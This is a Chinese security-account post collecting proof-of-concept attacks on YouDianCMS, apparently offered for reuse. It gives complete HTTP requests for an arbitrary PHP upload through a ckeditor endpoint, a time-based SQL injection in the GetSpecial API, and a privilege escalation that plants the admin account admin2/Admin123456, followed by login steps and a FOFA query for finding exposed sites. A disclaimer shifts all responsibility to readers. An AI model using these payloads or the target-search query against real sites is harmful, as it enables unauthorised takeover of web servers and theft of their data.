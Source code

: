 #  YouDianCMS友点系统漏洞合集   
原创 小白菜安全  小白菜安全   2024-02-23 17:30  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2tBfX56PXZIAGlkUQ0e3opW1icU9QembBfNEGjpJSYTZJwm7yg138pibcOGlOOsF4QCt5MSeicafh6A/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
  
**1.image_upload接口任意文件上传**  
```
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/2
Host:
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarydAPjrmyKewWuf59H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 227

------WebKitFormBoundarydAPjrmyKewWuf59H
Content-Disposition: form-data; name="files"; filename="c.php"
Content-Type: image/jpg
 
123
------WebKitFormBoundarydAPjrmyKewWuf59H--
```  
  
返回这样的信息就代表漏洞存在：  
  
{"result":"200","msg":"/image/uploads/1708664341678.php"}  
  
  
2.**GetSpecial**接口SQL延时注入漏洞  
```
GET /index.php/api/GetSpecial?debug=1&ChannelID=1&IdList=1,1%29%20and%20%28SELECT%20%2A%20FROM%20%28SELECT%28SLEEP%282%29%29%29A HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=din23h07blv026kk4tdqt1re00
Connection: close
```  
  
返回这样的信息就代表漏洞存在：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2tBfX56PXZIAGlkUQ0e3opL0cMhJQJnaBDZVaNjZqv95RCsIiaaktvoncjYxXyjx9TItRtjIFV9dw/640?wx_fmt=png&from=appmsg "")  
  
  
  
3.最新版本YouDianCMS 9.5.11水平越权-获取后台权限  
```
POST /index.php/Admin/member/SetAdmin HTTP/1.1
Host: 192.168.169.142
Content-Length: 810
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: ajs_anonymous_id=f22f8860-0882-4501-ac59-d541373cfacc; ajs_user_id=7052de16e0cf5c6ff476e7b3e592cb259331a467; PHPSESSID=i6omf842qvaa6clbooe0ttktc5
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36

------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="NowPage"

1
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="dlgMemberID"

2
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="dlgAdminName"

admin2
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="dlgAdminGroupID"

1
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="pwd3"

Admin123456
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="pwd4"

Admin123456
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr
Content-Disposition: form-data; name="__hash__"

24982b0d920e656b633764d3a2558895_3ffae5121575f72fa21d87a52342b47d
------WebKitFormBoundaryxSRzg4Lt1bzJyrqr--

```  
  
3.1 要先获取一个前台的账号密码前台登录地址：  
  
url+/index.php/public/login/l/cn,也可以注册一个但是要审核  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2tBfX56PXZIAGlkUQ0e3opAOvrswSPtrBlcvjiaYAv6NhSXd69pRgiayibdQ7Aez0SWXuZjTdzVLrCw/640?wx_fmt=png&from=appmsg "")  
  
3.2 登录获取cookie替换数据包就行,出现如下数据代表利用成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2tBfX56PXZIAGlkUQ0e3op6FW5ZauFKbIEPibEdTtTOsaB8mwhJf4iaNCqjfeTSkN1Nb1Vuh7oDl9A/640?wx_fmt=png&from=appmsg "")  
  
3.3 登录后台：url+/index.php/Admin/public/Login，账号密码admin2/Admin123456  
  
后台上传接口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2tBfX56PXZIAGlkUQ0e3opjkQbuYnp8seT7WtFRa52h88UJoiaiaDslR5Zdj4Tn58WjbAB3dw7QnaA/640?wx_fmt=png&from=appmsg "")  
  
**源码获取:**  
http://www.youdiancms.com/soft.html  
# 搜索语法  
  
**fofa：app="友点建站-CMS" && product="友点建站-CMS"**  
  
